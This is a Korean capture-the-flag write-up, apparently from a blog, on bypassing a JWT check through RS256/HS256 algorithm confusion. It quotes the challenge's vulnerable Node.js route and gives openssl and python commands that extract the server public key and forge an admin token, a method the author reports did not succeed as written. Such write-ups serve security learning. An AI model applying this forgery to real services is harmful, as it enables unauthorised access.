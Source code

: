 Flag에 대한 조건을 확인해본 결과 `/admin` 페이지에 접근할 때 JWT 토큰의 **user** 항목이 `admin`이면 Flag를 확인할 수 있다.

<p align="center">
<img src ="https://github.com/peoplstar/peoplstar.github.io/assets/78135526/14df2c63-348d-4c11-850a-f4940c1bb064" width = 850>
</p>

`guest`의 Username으로 로그인한 경우 위와 같이 **"user" : "guest"**임을 확인할 수 있다. 이 값을 `admin`으로 변경하기 위해서 어떻게 해야할 지 소스코드를 확인해본다.

```javascript
app.get('/admin.html', (req, res) => {
  var cookie = req.cookies;
  jwt.verify(cookie['auth'], publicKey, verifyAlg, (err, decoded_jwt) => {
    if (err) {
      res.status(403).send("403 -.-");
    } else if (decoded_jwt['user'] == 'admin') {
      res.sendFile(path.join(__dirname, 'admin.html')) // flag!
    } else {
      res.status(403).sendFile(path.join(__dirname, '/public/hehe.html'))
    }
  })
})

const verifyAlg = { algorithms: ['HS256','RS256'] }
const signAlg = { algorithm:'RS256' }
```

`admin.html` 접근 시 현재 사용하고 있는 JWT 토큰에 대해 **user** 값이 `admin`인지 확인하는데 이 때 `publicKey`가 토큰 발급 시 사용했던 값과 일치하는지에 대한 검증이 없기에 `publicKey` 값을 추출하여 **user : admin**의 토큰을 생성하여 인증을 시도하면 해결된다.

분명 토큰 발급 시 사용한 알고리즘은 `RS256`인데 검증 단계에서는 `RS256, HS256` 두 개를 모두 사용한다.

  * RS256 : 비대칭 알고리즘

  * HS256 : 대칭 알고리즘

즉 **RS256**로 사용했을 때 공개 키(서버 HTTPS 인증서 공개키)를 이용하여 **HS256** 알고리즘으로 새로운 토큰을 생성하여 우회가 가능하다.

```bash
openssl s_client -connect {URL} 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > pubkey.pem

openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem

cat pubkey.pem | xxd -p | tr -d "\\n"

echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE3MjAzMjc3NDd9" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d42454(생략)92d2d2d2d2d0a

python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('a408b25ccc76dc6b3f0a8364f756974d43064ae41f78ea6c17e58e924c166f35')).replace('=','')\")"
```

주로 사용된 방법으로는 위와 같은 방법으로 진행하지만 해결이 되지 않았다. _(해당 방법은 서버의 공개 키를 이용하여 시그니처의 값만 변경하여 수정하였기 때문에 대칭키 알고리즘으로 복호화하더라도 **Header**, **Payload**의 내용은 해당 키로 암호화된 것이 아니기에 해결이 되지 않았을 것으로 예상된다.)_

또한 JWT 생성 시 `RS256` 방식을 사용했기에 추가적으로 추출한 공개키를 RSA 형식으로 변환하여 **node js**를 이용하여 새롭게 페이로드를 수정해야한다.
